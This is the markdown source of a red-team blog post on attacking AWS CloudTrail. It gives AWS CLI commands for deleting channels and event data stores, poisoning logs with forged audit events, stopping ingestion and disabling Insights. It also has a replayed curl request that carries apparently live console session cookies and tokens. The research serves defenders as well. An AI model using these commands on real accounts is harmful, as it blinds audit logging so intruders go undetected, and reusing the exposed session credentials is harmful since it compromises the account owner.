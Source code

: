 ```yaml
---
published: true
title: Attacking AWS Cloudtrail 101
date: 2023-11-24 07:40:00 +0200
categories: [Research]
tags: Cloud
---
```


# Introduction

I was inspired by @[Frichette_n](https://twitter.com/Frichette_n) research about Cloudtrail bypasses and I didn’t find any material or talks discussing how we can attack Cloudtrail. 

I presented this research @[BsidesABQ](https://twitter.com/BSides_ABQ)

Since logging is one of our enemies in red team operations, I decided to do my research on how to attack Cloudtrail from Adversary perspective. 

# Table of content

1. Service-link Channels
    1. Deleting Channels 
    2. Log poisoning  
2. Event data stores
    1. Deleting stored data 
    2. Stop data logging 
3. Insights events
    1. Disabling Insights events 

# What is Cloudtrail?

AWS CloudTrail is an AWS service that helps you enable operational and risk auditing, governance, and compliance of your AWS account. Actions taken by a user, role, or an AWS service are recorded as events in CloudTrail.

# Service-link Channels

## Enumeration :

- aws cloudtrail list-channels --profile Cloudtrail

<img src="https://i.ibb.co/6Dfx001/1.png" alt="1" border="0">

## Abuse 1.1 :

Delete-channel permission  
> You can delete a channel between cloudtrail and crowdstrike falcon for example.

- aws cloudtrail delete-channel --channel arn:aws:cloudtrail:eu-north-1:036528129738:channel/3d5f7c83-5146-4ea5-8e62-7250313f9e26 --profile Cloudtrail

> This permission won’t work if you have EC2 machine, you need to use your own server.
> 

<img src="https://i.ibb.co/q9fR4KD/2.png" alt="2" border="0">

## Abuse 1.2 :

Put-audit-events permission 

- aws cloudtrail-data put-audit-events --channel-arn $CHANNEL_ARN --region "us-east-1" --audit-events <data> --profile cloudtrail

> It always breaks when I use JSON directly into the command so I used bash
> 

<img src="https://i.ibb.co/FWbvtvz/3.png" alt="3" border="0">

<img src="https://i.ibb.co/Y0H1sQB/4.png" alt="4" border="0">

---

# Event data store

## Enumeration :

- aws cloudtrail list-event-data-stores --profile Cloudtrail

<img src="https://i.ibb.co/fXFKgHc/5.png" alt="5" border="0">

## Abuse 1.1 :

Delete-event-data-store permission

- aws cloudtrail delete-event-data-store --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/3RNBfCT/6.png" alt="6" border="0">

## Abuse 1.2 :

stop-event-data-store-ingestion permission

- aws cloudtrail stop-event-data-store-ingestion --event-data-store arn:aws:cloudtrail:eu-north-1:036528129738:eventdatastore/ed8053cc-2fa5-4313-a774-f901a4c850c1 --profile Cloudtrail

<img src="https://i.ibb.co/GMYsbRM/7.png" alt="7" border="0">

---

# Insights events :

## Enumeration :

- aws cloudtrail get-insight-selectors --trail-name management-events --profile Cloudtrail

<img src="https://i.ibb.co/W53NzZ5/8.png" alt="8" border="0">

## Abuse :

Put-Insight-selector permission

> By using this you are disabling the insights events.
> 
1. Enable intercept in Burpsuite

<img src="https://i.ibb.co/jV9WT5P/9.png" alt="9" border="0">

2. This request can be done with the CLi all you need is the cookies.

<img src="https://i.ibb.co/S0M5BmT/10.png" alt="10" border="0">

```bash
curl -i -s -k -X $'PUT' \
    -H $'Host: eu-north-1.console.aws.amazon.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://eu-north-1.console.aws.amazon.com/cloudtrail/home?region=eu-north-1' -H $'Content-Type: application/json' -H $'x-cloudtrail-xsrf-token: UkNZNHRuRmdvSkc1SFhYQTNTLVZOdTl2RkJsN2JkanNLQl9zZTVMQUIwWXwtNDAwNjEzMTg5ODI5Mzk5MzA4OXwxfDIwMjMtMTEtMjRUMTM6MTk6NDYuNzM3Wg==' -H $'Origin: https://eu-north-1.console.aws.amazon.com' -H $'Content-Length: 141' -H $'Connection: close' -H $'Sec-Fetch-Dest: empty' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Site: same-origin' -H $'Cache-Control: max-age=0' \
    -b $'aws-creds-code-verifier=mLrTV0kwR9xl3b0OUxQKI749k6drbT-eg7BDvSwFrMhbo5-X2; aws-consoleInfo=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJldS1ub3J0aC0xIiwiYWxnIjoiRVMzODQiLCJraWQiOiI1N2QxOTI5MC05NzQxLTQzMDgtYWYxOC1hNzQyNmRmYjZhYzgifQ.eyJhdF9oYXNoIjoiMzFWN2FQd3FqVkx3VmNKM19RWkVHZTd5VnRhTkxaXzYiLCJpc3MiOiJodHRwOlwvXC9zaWduaW4uYXdzLmFtYXpvbi5jb21cL3NpZ25pbiIsInN1YiI6ImFybjphd3M6aWFtOjowMTU0Mjg1NDA2NTk6dXNlclwvY2xvdWR0cmFpbCJ9.GWtXx-axeyOkZsDKsRi62by09wVmJLH810Sq-51Y2eA3zv2P48n2NAn-SwaRNCEZhdcfQHrBlsRVvQajAQ6DZm7OLXhEdppCqbdm-md_Guh6nMjiyyht22x6in9CTdQU; aws-creds=eyJ2IjoyLCJlIjoiZ01QaHFTeFBXVVRJNnEwdzF5RVhya2dyeVJCYzFOQzdNcTZVcURpWHlpRFBm%0AbnFyTTdhdEFyRktqTERONld2QkZzZ0tBakZKMVMySCUwQVZ1UWtyMEhmbmVLaXBnQ2hHWGpjYWFl%0AVHRVejlUTmU0bHRFUjZHclFRaHBwU3JjOUo1bjFBMGtJOE56Z0tpNWtEbXElMkJtUkRXVCUyQnMx%0AJTBBQTFTQUZraFZOZlljV1V5eXRmZFI2bVhraU1WSDZ2Q25LR2ZkZDZxMGprJTJGajhQWmRsREpQ%0ARWhGZHFPbyUyQkJlTm5rdzdDT3dUcEI5WlQlMEE0cGRqT0NTQ2wlMkJJazNyM01ZR05oRFRGeE1V%0ATlZaWmVLVlNUYjZVMFJ6diUyQllKWjJKcXJ0V3Z0RkpkOVEwOVhoSTFMZU5laGtSOWsyMiUwQVQz%0ARVJOV1NuTUlJb1JlRjhzNkdzV1JIUUlHYSUyRm1MeGJRdWhrYkFPR0swdU1tNmxMRzBsRlNPcmJL%0AbHRZbXBIN1ZhRVhvNUlaOGtJVyUwQWdDcXZ4SWJ5YUZvWFhaJTJGaGhnUE9FSkhsbkphV09WQ0RI%0AanB5RzJRSkEwMWFGVFZLUHR1V1RBdCUyRmxrZ3clMkZIU0VudjYxNkFBVmRyNHUlMEFwS1NNdTdt%0AanlnTlJLYkY5Ujh3czV2U25RWW44VFVxNW5LWHN5dHFjeE5LcGx0dVhhJTJCQVV6SUVlMCUyQnhz%0AJTJCbEZOTEtYZ2lqS3lQcmtnJTBBOThJQ2JNdmxoMVVwM3YxbVJKUVo5eUhpSkl0eHRPQnZuZ21Q%0AWHRyMWxiYkVncDZuTnB3eE43Rjk1Z0ZtbzBmREtGZk0zQUMlMkJVVHNZJTBBaW9YWWpob1V5Zjk3%0ASWZOMFV5ViUyQjVpd0drbXZWb1BWeVR2SjZUWCUyRnpEWk1YU0NFbXdDODVxN0VkWGZIUG9vT2w3%0AUE9JUUdmYlRaa1ElMEFmUGNDMFVYSWdCVU1EM0NuZW1lRVJhbUhBalZXSVREVjlXd0hZNE1NQiUy%0ARk1NUlZhNUQ4djdUcFpNeGt2UjFObWY3JTJGS0glMkI5OXMweTVZJTBBazNZQjRxZmdCZVNRZG5Y%0AcENGa3VmWDhHVjQ3WiUyRjBRNzdqT2NqJTJGZiUyRjNnMDJTJTJCb1R0VDhVN3I2RSUyRjBmaFRT%0ATCUyQmNlSHg5aDZJNXElMkJzJTBBbHdLNk02ZTFNR0lPbVR2WmttJTJCa3g3MiUyQmZET0FYcTBx%0ARjEwc2pQeXNXcUppZmNBVXZXU0w0NzJjWHU2b29XSmJneHRxMktZdU8zZWolMEFZTiUyRkNadXpY%0ARGRGOVdrUXRTRER0VTdwcSUyQnNUSlhvZXd6UDZOR2NQSE9OQko2czZzbWJEVUdub2I5eHUlMkJp%0AYm1YdE5XREhLelNtYmFQJTBBek9FOFFoaDFJdTU4WXc3YlM0ZnQ2UElTQUFRUEhydU1LdXI2YzE3%0AY01TJTJGSTB1Nk9HQUkzTlhRM2VmMUc1bENCY2pZV09QUWZkd2JKJTBBRmxzTDkwNXdjaDFrYmJZ%0AbHJvSnA1dDdndUcxclExc2MxSHdnNVRMN0VXNk1PS2dGQ0dLMzdTS2dETzBuRGpGa0xnVzhvUVZ0%0AQ3dSQyUwQTlMRVVBS3MxTlNCaTlNZUR3M3lJTkxXMERPYkhZZDNocmhCTFgyR3RMQ0lqemNZWGN6%0AMWdLMTVid1U3UHVzdVZaTTNPWHZtZ255R1glMEE1WDhkM2w0N29xOWRUMFlRd2hCRGtEeFF4RWlK%0AV3lOaTJBNUJJaTBNVmsxeEpMeFJyOHhUSmNXYnRpNHRPNW9HQkhyQWJ1TVJjcGJGJTBBMXRPa2J2%0AV0JOMGlzWW1HR1VBNE9wQmFDUnBpblY1MzhaUW1qUU80SHdIUlEzJTJCVFByRGxPbG90SnFVaE5G%0AY2dJR1FPU2NWQm4xdsfgsdfgdsfgsdfgdGRIJTBBQ0J4RDhUT0ZRckIlMkZoalR4enhDRyUyQjZYZE9vU1V3VlYlMkZv%0Aem9MRTdBZlVCUUx0WElyazNKdWltMWpaYmUlMkJXZHFLdmRaJTJGNDY4TjFpREMlMEFzUDBISnd0%0AT2F6dmk4QlhkWW4xbHIzN1pOY0dZM3ZIRXBBMlRsV0hhNkVEUWNWanJaaXB3Um9GdUwlMkJOeUU0%0ANVY0eTFFVHpiN2lNWkIlMEFBMGVzOVdxNjZnSzdrcUFDcU9iOSUyRmk5WHElMkZtNTFFZ0lFaHU4%0AVDBlVFd2MUxIWnd2NDA0MHFnbzRUYTF4Z2lmUGlpTU1HSUlzZ2pZdyUwQTBBMkxQUG4lMkZ4VWt1%0Aa3J6UWYxVG41YW04VXpIVE9DOHExY0NyOE5ySFd3S0g1VW9pV2pKbU0yUDdwR1h4Q2F5WEpyQ29t%0AeGZqN2FzWiUwQW9ENFR2WlpWdE5KaVB3Z1V6aGpHN1o2M1NkZVNGSXlpaG5KbmZjUWd6N0wzbkQz%0AMzlxbVc0M2dKcXRkUWxIdGo0MTZyMkpncSIsImEiOjEsImsiOjU0fQ%3D%3D; JSESSIONID=15A621603EB7FCA92753D57BCFCB5A08; aws-ubid-main=611-7283050-5123120; aws-vid=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwaWQiOiI2Y2NmYTJkNy0zNTg5LTRhNTYtOWZmYy1lYmEzOThhNzZhNGYiLCJ1YXQiOjE3MDA4MzE3MTcyNzEsImV4cCI6MTczMjM2NzcxNzI3MSwicHZkIjoiYXdzLmFtYXpvbi5jb20ifQ.aRXljW_PBiRDswnsnoguweZpXOuJpLbbGRgZ1mbnYOc; remember-account=false; aws-account-alias=036528129738; aws-account-data=%7B%22marketplaceGroup%22%3A%22AWS%22%7D; aws-userInfo=%7B%22arn%22%3A%22arn%3Aaws%3Aiam%3A%3A036528129738%3Auser%2FtestaccountBudget%22%2C%22alias%22%3A%22036528129738%22%2C%22username%22%3A%22testaccountBudget%22%2C%22keybase%22%3A%22BusFwa7ORKTMx8q4jxMcO%2FXT%2BxohCbdpsGyvdSG7mPo%5Cu003d%22%2C%22issuer%22%3A%22http%3A%2F%2Fsignin.aws.amazon.com%2Fsignin%22%2C%22signinType%22%3A%22PUBLIC%22%7D; aws-userInfo-signed=eyJ0eXAiOiJKV1MiLCJrZXlSZWdpb24iOiJ1cy1lYXN0LTEiLCJhbGciOiJFUzM4NCIsImtpZCI6ImViYjdjODY1LTY3NGEtNDNjZi1hYzY2LTUxNGQ1YjQxNjlhYiJ9.eyJzdWIiOiIwMzY1MjgxMjk3MzgiLCJzaWduaW5UeXBlIjoiUFVCTElDIiwiaXNzIjoiaHR0cDpcL1wvc2lnbmluLmF3cy5hbWF6b24uY29tXC9zaWduaW4iLCJrZXliYXNlIjoiQnVzRndhN09SS1RNeDhxNGp4TWNPXC9YVCt4b2hDYmRwc0d5dmRTRzdtUG89IiwiYXJuIjoiYXJuOmF3czppYW06OjAzNjUyODEyOTczODp1c2VyXC90ZXN0YWNjb3VudEJ1ZGdldCIsInVzZXJuYW1lIjoidGVzdGFjY291bnRCdWRnZXQifQ.oQm0YxRL52ZYNmAZAe5l3JZ2X0hVsDlEeEsmoU2pldiWE1Mf5K3jBGbllNzsdfgdfsgasdfasdfasdhsdafhcSWR_EVPz8qHWj0sllbEamEg8pc46Bkn8ngVf9nrjW-S96JmOe96Zh9GTQtPq1QYP7bIL; regStatus=registered; seance=%7B%22accountId%22%3A%22036528129738%22%2C%22iam%22%3Atrue%2C%22services%22%3A%5B%22AWSCloudTrail%22%2C%22cloudtrail%22%5D%2C%22status%22%3A%22ACTIVE%22%2C%22exp%22%3A0%7D; awsc-color-theme=light; awsc-uh-opt-in=\"\"; noflush_awsccs_sid=e9aa0dda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; cloudtrail-session-id=Bzyht0Qcyfak6VcugHAl12BN77W7CsXUhW6h8o58Khw; awsccc=eyJlIjoxLCJwIjoxLCJmIjoxLCJhIjoxLCJpIjoiMTJjZDQxMDktYjI5OC00NzgxLThjYTktOTNiZTQxMTE2NDgyIiwidiI6IjEifQ==; aws-signer-token_eu-north-1=eyJrZXlWZXJzaW9uIjoiY3ZSblRkWDUxR0ZxeDdNTkNENG9rbnVaT3FwdDBEQmgiLCJ2YWx1ZSI6ImdFemt2Sy9BN01zZTN4cXlUdGZNWDF6UkFSNlY5WlZoOUtZOUhRYTd4MWc9IiwidmVyc2lvbiI6MX0=; noflush_awscnm=%7B%22hist%22%3A%5B%22ctr%22%2C%22home%22%5D%2C%22sc%22%3A%5B%5D%2C%22tm%22%3A%22tm-both%22%2C%22ea%22%3Atrue%2C%22consoleFlags%22%3A%5B%22F%22%2C%22G%22%2C%22J%22%2C%22H%22%2C%22L%22%5D%7D; noflush_Region=eu-north-1; last-sign-in-session=e9aadda937be820c48f7ae5bd25e545a3283fec2017f79a7dd7bcdbe0ef9b77; toolsExperience={}; awsc-rac=BAH30|CGK33|CPT33|DXB33|HKG33|HYD33|MEL33|MXP30|TLV30|ZAZ30|ZRH30@1700831742609; noflush_awsc_cct_config_version=6CMfVeLSUFu_q_sUXRTc_ZaZy4fH5pf8sRxOAQt_JAc' \
    --data-binary $'{\"trailArn\":\"arn:aws:cloudtrail:eu-north-1:036528129738:trail/management-events\",\"trailHomeRegion\":\"eu-north-1\",\"trailInsightSelectors\":\"[]\"}\x0d\x0a\x0d\x0a\x0d\x0a' \
    $'https://eu-north-1.console.aws.amazon.com/cloudtrail/service/putInsightSelectors?region=eu-north-1
```

---

## Conclusion

Most of AWS permission can be weaponized if the attacker understood how it works, if you used condition statements you will prevent anyone from using what I call dangerous permissions [ Deleting, editing ….etc. ], even if there misconfiguration only the principal you are allowing will be able to use it.
